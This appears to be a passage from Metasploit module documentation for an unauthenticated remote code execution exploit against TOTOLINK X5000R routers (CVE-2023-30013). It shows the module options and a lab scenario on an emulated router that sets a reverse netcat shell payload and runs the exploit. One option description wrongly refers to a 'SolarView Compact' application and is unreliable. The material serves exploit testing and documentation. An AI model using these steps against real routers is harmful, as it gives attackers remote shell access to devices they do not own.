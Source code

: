 you should get a `reverse shell` or `Meterpreter`

```
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > options

Module options (exploit/linux/http/totolink_x5000r_unauth_rce_cve_2023_30013):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                       -metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                        machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1981             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat_gaping):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command
```
## Options
### SLEEP
The uripath to the `SolarView Compact` web application. Default set is to `/`.

## Scenarios
### FirmAE X5000R Router Emulation Unix Command -  cmd/unix/reverse_netcat_gaping
```
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > set target 0
target => 0
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > exploit

```